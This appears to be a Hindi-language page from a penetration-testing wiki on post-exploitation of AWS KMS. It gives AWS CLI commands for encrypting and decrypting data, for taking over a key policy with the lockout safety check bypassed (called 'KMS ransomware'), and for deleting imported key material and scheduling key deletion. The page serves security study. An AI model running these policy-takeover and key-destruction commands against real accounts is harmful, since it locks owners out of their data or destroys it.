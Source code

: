 # AWS - KMS पोस्ट एक्सप्लॉइटेशन

{{#include ../../../banners/hacktricks-training.md}}

## KMS

अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-kms-enum.md
{{#endref}}

### जानकारी एन्क्रिप्ट/डिक्रिप्ट करें

`fileb://` और `file://` URI स्कीम हैं जो AWS CLI कमांड में स्थानीय फ़ाइलों के पथ को निर्दिष्ट करने के लिए उपयोग की जाती हैं:

- `fileb://:` फ़ाइल को बाइनरी मोड में पढ़ता है, जो आमतौर पर गैर-टेक्स्ट फ़ाइलों के लिए उपयोग किया जाता है।
- `file://:` फ़ाइल को टेक्स्ट मोड में पढ़ता है, जो आमतौर पर साधारण टेक्स्ट फ़ाइलों, स्क्रिप्टों, या JSON के लिए उपयोग किया जाता है जिसमें विशेष एन्कोडिंग आवश्यकताएँ नहीं होती हैं।

> [!TIP]
> ध्यान दें कि यदि आप किसी फ़ाइल के अंदर कुछ डेटा को डिक्रिप्ट करना चाहते हैं, तो फ़ाइल में बाइनरी डेटा होना चाहिए, न कि बेस64 एन्कोडेड डेटा। (fileb://)

- एक **संपूर्ण** कुंजी का उपयोग करना
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
- एक **asymmetric** कुंजी का उपयोग करना:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

एक हमलावर जिसके पास KMS पर विशेषाधिकार प्राप्त है, वह कुंजियों की KMS नीति को संशोधित कर सकता है और **अपने खाते को उन पर पहुंच प्रदान कर सकता है**, वैध खाते को दी गई पहुंच को हटा सकता है।

फिर, वैध खाते के उपयोगकर्ता उन कुंजियों के साथ एन्क्रिप्ट की गई किसी भी सेवा की कोई जानकारी तक पहुंच नहीं प्राप्त कर सकेंगे, जिससे खाते पर एक आसान लेकिन प्रभावी रैनसमवेयर बन जाएगा।

> [!WARNING]
> ध्यान दें कि **AWS प्रबंधित कुंजियाँ इस हमले से प्रभावित नहीं हैं**, केवल **ग्राहक प्रबंधित कुंजियाँ**।

> इसके अलावा, यह ध्यान दें कि पैरामीटर **`--bypass-policy-lockout-safety-check`** का उपयोग करना आवश्यक है (वेब कंसोल में इस विकल्प की कमी इस हमले को केवल CLI से संभव बनाती है)।
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
> [!CAUTION]
> ध्यान दें कि यदि आप उस नीति को बदलते हैं और केवल एक बाहरी खाते को पहुंच देते हैं, और फिर इस बाहरी खाते से आप एक नई नीति सेट करने की कोशिश करते हैं **जिससे मूल खाते को फिर से पहुंच मिले, तो आप सक्षम नहीं होंगे**।

<figure><img src="../../../images/image (77).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

एक वैश्विक KMS Ransomware करने का एक और तरीका है, जिसमें निम्नलिखित चरण शामिल होंगे:

- एक नया **की बनाएं जिसमें एक की सामग्री** हमलावर द्वारा आयात की गई हो
- **पुराने डेटा को फिर से एन्क्रिप्ट करें** जो पिछले संस्करण के साथ एन्क्रिप्ट किया गया था, नए के साथ।
- **KMS की को हटाएं**
- अब केवल हमलावर, जिसके पास मूल की सामग्री है, एन्क्रिप्टेड डेटा को डिक्रिप्ट करने में सक्षम होगा

### Destroy keys
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
> [!CAUTION]
> ध्यान दें कि AWS अब **पिछले कार्यों को क्रॉस अकाउंट से किए जाने से रोकता है:**

<figure><img src="../../../images/image (76).png" alt=""><figcaption></figcaption></figure>

{{#include ../../../banners/hacktricks-training.md}}
